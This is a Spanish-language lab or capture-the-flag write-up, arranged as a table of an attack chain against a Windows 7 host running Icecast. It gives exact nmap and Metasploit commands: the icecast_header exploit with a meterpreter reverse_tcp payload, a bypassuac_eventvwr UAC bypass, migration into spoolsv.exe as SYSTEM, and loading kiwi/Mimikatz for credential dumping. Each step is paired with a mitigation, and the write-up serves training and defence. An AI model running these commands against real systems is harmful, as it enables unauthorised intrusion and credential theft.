 
# Cadena de ataque 

| Paso | Descripción                                                    |                                                                                   Herramienta / Comando clave | Objetivo / Por qué                                                                | Resultado / Evidencia                                                                                                                | Mitigación recomendada                                                                                                                        |
| ---- | -------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------: | --------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------- |
| 1    | Reconocimiento externo                                         |                                                                       `nmap -sS -sV -p- -sC -Pn 10.10.39.239` | Detectar puertos y servicios expuestos                                            | OS: Windows 7 SP1 x64; servicio Icecast en `8000/tcp`; RDP, SMB abiertos. (Salida `nmap.txt`)                                        | Minimizar superficie de ataque: cerrar/filtrar servicios innecesarios; parches.                                                               |
| 2    | Búsqueda de exploits disponibles                               |                                                        `searchsploit icecast` / `msfconsole` `search icecast` | Identificar exploits públicos aplicables a Icecast                                | Encontrado `exploit/windows/http/icecast_header` (módulo Metasploit)                                                                 | Mantener inventario de software y aplicar actualizaciones; eliminar servicios sin soporte.                                                    |
| 3    | Explotación remota                                             | Metasploit: `use exploit/windows/http/icecast_header` + payload `windows/meterpreter/reverse_tcp` → `exploit` | Obtener ejecución remota y un payload en memoria                                  | **Meterpreter session 1** abierta (reverse shell al host objetivo).                                                                  | Monitoreo de tráfico saliente; WAF/APT/IDS para tráfico anómalo.                                                                              |
| 4    | Reconocimiento post-explotación inicial                        |                                                                     `systeminfo`, `ps`, `getprivs` (sesión 1) | Recopilar SO, procesos, arquitectura y privilegios actuales                       | SO x64; proceso `Icecast2.exe` (x86) bajo `Dark`; privilegios limitados (usuario local).                                             | Least privilege; evitar ejecución de servicios con privilegios innecesarios.                                                                  |
| 5    | Enumeración de vectores locales                                |                                                                `run post/multi/recon/local_exploit_suggester` | Enumerar exploits locales aplicables según arquitectura/build                     | Listado de módulos aplicables; entre ellos `bypassuac_eventvwr`.                                                                     | Parcheo de sistema y revisión de build/servicios vulnerables; alertas EDR para checks locales.                                                |
| 6    | Escalada UAC local                                             |                                        `use exploit/windows/local/bypassuac_eventvwr` (SESSION=1) → `exploit` | Evadir UAC y ejecutar payload elevado (sin prompt)                                | **Meterpreter session 2** abierta con permisos elevados (evidencia: handler + nueva sesión).                                         | Endurecer UAC, aplicar parches, bloquear vectores de auto-elevación; monitorizar ejecución de utilidades auto-elevadas (p. ej. eventvwr.exe). |
| 7    | Verificación de privilegios y migración a proceso privilegiado |                                         `sessions -i 2`, `getuid`, `getprivs`, `ps`, `migrate -N spoolsv.exe` | Confirmar identidad SYSTEM y ejecutar dentro de proceso x64 que corre como SYSTEM | `getuid` → `NT AUTHORITY\SYSTEM`; `getprivs` muestra privilegios críticos; `spoolsv.exe` identificado y usado como proceso objetivo. | Restringir acceso/ejecución de procesos críticos; monitorizar inyección/migración de procesos.                                                |
| 8    | Carga de herramienta de post-explotación                       |                                                                `meterpreter > load kiwi` (Mimikatz integrado) | Cargar funcionalidad para interactuar con LSA/LSASS en memoria                    | Extensión Kiwi cargada correctamente (`Success.`).                                                                                   | Protección de LSA (LSA Protection, Credential Guard); EDR que detecte técnicas de dumping.                                                    |